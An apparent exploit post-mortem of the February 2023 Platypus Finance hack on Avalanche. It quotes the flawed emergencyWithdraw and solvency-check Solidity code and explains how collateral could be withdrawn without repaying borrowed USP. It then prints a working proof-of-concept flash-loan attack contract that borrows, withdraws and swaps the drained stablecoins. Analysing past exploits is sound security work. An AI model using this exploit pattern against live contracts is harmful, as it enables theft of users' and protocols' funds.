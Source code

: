 # Platypus Finance


## What's Platypus Finance?
Platypus Finance is a single-sided Automatic Market Maker (AMM) for stablecoins built on the Avalanche network that is designed to optimize capital efficiency

## Amount stolen
**$8.5 Million USD**

February 16, 2023  


## Vulnerability
Business Logic Flaw


## Analysis

The `emergencyWithdraw` function in the `MasterPlatypus` contract allows a user to withdraw
their LP tokens from a given pool without claiming any accrued rewards.

This function was introduced due to problems where users were unable to use `withdraw` to receive their LP tokens.

```solidity
     function emergencyWithdraw(uint256 _pid) public nonReentrant {
       PoolInfo storage pool = poolInfo[_pid];
       UserInfo storage user = userInfo[_pid][msg.sender];


       if (address(platypusTreasure) != address(0x00)) {
           (bool isSolvent, ) = platypusTreasure.isSolvent(msg.sender, address(poolInfo[_pid].lpToken), true);
           require(isSolvent, 'remaining amount exceeds collateral factor');
       }


       // reset rewarder before we update lpSupply and sumOfFactors
       IBoostedMultiRewarder rewarder = pool.rewarder;
       if (address(rewarder) != address(0)) {
           rewarder.onPtpReward(msg.sender, user.amount, 0, user.factor, 0);
       }


       // SafeERC20 is not needed as Asset will revert if transfer fails
       pool.lpToken.transfer(address(msg.sender), user.amount);


       // update non-dialuting factor
       pool.sumOfFactors -= user.factor;


       user.amount = 0;
       user.factor = 0;
       user.rewardDebt = 0;


       emit EmergencyWithdraw(msg.sender, _pid, user.amount);
   }
```

The problem is that there is only one check done by this function, it checks whether the user is solvent or not, 
using `PlatypusTreasure.isSolvent`. 


```solidity
    function _isSolvent(
       address _user,
       ERC20 _token,
       bool _open
   ) internal view returns (bool solvent, uint256 debtAmount) {
       uint256 debtShare = userPositions[_token][_user].debtShare;


       // fast path
       if (debtShare == 0) return (true, 0);


       // totalDebtShare > 0 as debtShare is non-zero
       debtAmount = (debtShare * (
      totalDebtAmount + _interestSinceLastAccrue())) / totalDebtShare;
      solvent = debtAmount <= (
             _open ? _borrowLimitUSP(_user, _token) : _liquidateLimitUSP(_user, _token));
   }
```

The underlying mechanism of this check involves the utilization of an internal function 
named `_isSolvent`. The boolean variable in this function returns is true when the user's debt is less than or equal to its USP borrow limit. 

A user is considered solvent if their collateral is sufficient to cover their debt. It's crucial to note that withdrawing collateral 
must not result in any outstanding debt. The `emergencyWithdraw` function allows users with debt to withdraw all collateral 
LP tokens gained from the flash loan without settling the previously borrowed USP associated with that collateral, leaving the protocol indebted.

In many decentralized finance (DeFi) protocols, it is typical for a liquidity pool to automatically repay 
a user's debt when they withdraw their funds. This mechanism ensures that users cannot withdraw their collateral without
settling any outstanding debt they might have incurred while using the protocol.




# proof of concept (PoC) 

![euler Image](../images/platypus.drawio.png)


1. `Flashloan` 44 Million USDC from Aave
2. `Deposit` the borrowed USDC into the `platypus` pool to get LP tokens
4. `Deposit` LP tokens to the `masterPlatypus` contract as **collateral**
5. `Borrow` as much **USP** as possible against the LP collateral
6. Execute `emergencyWithdraw` to get the LP collateral back **without** paying debt
7. Payback flash loan
8. Swap USP for Platypus pool liquidity in the form of other stablecoins.




### Flash Loan

`aaveV3.flashLoanSimple(address(this), address(USDC), 44_000_000 * 1e6, new bytes(0), 0);`
 

### Flash Loan fallback
```solidity
     function executeOperation(
        address asset,
        uint256 amount,
        uint256 premium,
        address initator,
        bytes calldata params
    ) external returns (bool) {
        USDC.approve(address(aaveV3), amount + premium);
        USDC.approve(address(Pool), amount);

        //step 2: deposit the borrowed USDC into the platypus pool to get LP tokens.
        Pool.deposit(address(USDC), amount, address(this), block.timestamp); // deposit USDC to LP-USDC


        uint256 LPUSDCAmount = LPUSDC.balanceOf(address(this));
        LPUSDC.approve(address(Master), LPUSDCAmount);

        //step 3: deposit LP tokens to the masterPlatypus contract as collateral
        Master.deposit(4, LPUSDCAmount); // deposit LP-USDC to MasterPlatypus


        PlatypusTreasure.PositionView memory Position = Treasure.positionView(address(this), address(LPUSDC));
        uint256 borrowAmount = Position.borrowLimitUSP;

        //step 4: borrow as much USP as possible against the LP collateral
        Treasure.borrow(address(LPUSDC), borrowAmount); // borrow USP from Treasure

        //step 5: execute emergecyWithdraw to get the LP colletral back wihtout paying debt
        Master.emergencyWithdraw(4);


        LPUSDC.approve(address(Pool), LPUSDC.balanceOf(address(this)));

        // step 6: use the LP tokens to withdraw the USDC initisially borrowed from aava to pay back flashloan.
        Pool.withdraw(address(USDC), LPUSDC.balanceOf(address(this)), 0, address(this), block.timestamp); // withdraw USDC from LP-USDC

        // swap USP for playtupuis pool liquidity in form of other
        swapUSPToOtherToken();
        return true;
    }

      function swapUSPToOtherToken() internal {
        USP.approve(address(Pool), 9_000_000 * 1e18);
        Pool.swap(address(USP), address(USDC), 2_500_000 * 1e18, 0, address(this), block.timestamp);
        Pool.swap(address(USP), address(USDC_E), 2_000_000 * 1e18, 0, address(this), block.timestamp);
        Pool.swap(address(USP), address(USDT), 1_600_000 * 1e18, 0, address(this), block.timestamp);
        Pool.swap(address(USP), address(USDT_E), 1_250_000 * 1e18, 0, address(this), block.timestamp);
        Pool.swap(address(USP), address(BUSD), 700_000 * 1e18, 0, address(this), block.timestamp);
        Pool.swap(address(USP), address(DAI_E), 700_000 * 1e18, 0, address(this), block.timestamp);
    }
```


## conclusion

Under normal circumstances, when borrowing USP against LP collateral, the standard protocol dictates that the withdrawal of collateral is only allowed upon the repayment of the borrowed USP. However, the exploitation of the `emergencyWithdraw` function introduces a vulnerability. By leveraging `emergencyWithdraw`, one can secure the collateral without fulfilling the obligation of repaying the borrowed funds, essentially allowing the claim of collateral while still keeping the borrowed assets. 


**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/Platypus_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
